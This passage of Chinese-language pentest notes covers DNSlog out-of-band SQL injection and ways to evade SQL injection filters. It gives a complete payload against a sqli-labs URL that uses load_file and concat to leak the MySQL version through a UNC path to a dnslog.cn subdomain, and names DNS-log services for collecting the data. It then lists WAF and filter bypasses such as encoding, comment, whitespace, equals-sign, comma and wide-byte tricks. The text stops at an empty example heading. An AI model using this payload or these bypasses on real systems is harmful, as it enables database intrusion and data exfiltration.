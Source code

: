 ## DNSlog外带sql查询的记录

条件：需要mysql的文件my.ini添加或者修改：secure_file_priv=""

~~~shell
# 条件
使用本函数有几个前提：
1、首先要有注入点
2、需要有root权限
3、数据库有读写权限即：secure_file_priv=“”
4、得有请求url权限
5、还必须得是windows服务器
# 语句：
http://192.168.43.113//sqli-labs/Less-8/?id=1' and load_file(concat("\\\\",version(),".yn3pf3.dnslog.cn\\yyy")) -- -

# 网站：
dnslog.cn
ceye.io
zoomeye
### dnslog注入的原理
DNSlog就是DNS的日志，DNS在域名解析的时候会留下域名和解析IP的记录。DNS在解析的时候会留下日志，我们将信息放在高级域名中，传递到自己这里，然后通过读日志获取信息。
这里要用到load_file,而load_file无法直接使用，需要用concat，而访问互联网上的文件需要用到//
# //
访问互联网中的文件时，需要在最前面加上两个斜杠 //
~~~

## SQL注入绕过

~~~shell
1、注释绕过：/*!xxx*/
2、大小写绕过
3、双写绕过：selectselect * from...
4、编码绕过
	ascii码
	十六进制
	unicode编码
	URL编码（双重URL编码）
5、空格过滤绕过
	/**/
	换行：%0a
	tab(四个空格)：%09
6、or或者and绕过：&&；||；！
7、等号绕过：
	like；
	rlike(模糊匹配)；
	regexp；
	id>'admin1' and id<'admin3';
	<>等价于！=，<>！就是等号
8、大于小于符号绕过
	greatest(n1,n2,n3)返回里面最大值
	substr('abc',1,1) in ('a')：返回真假	
9、逗号过滤
	limit 0，1-->limit 0 offset 1;
10、等价函数替换
	sleep-->benchmark
	ascii-->hex
	group_concat-->concat_ws
11、过滤单引号：宽字节
# sql慢日志
慢日志全称为慢查询日志（Slow Query Log），主要用来记录在 MySQL 中执行时间超过指定时间的 SQL 语句。通过慢查询日志，可以查找出哪些语句的执行效率低，以便进行优化。


#举例：
~~~
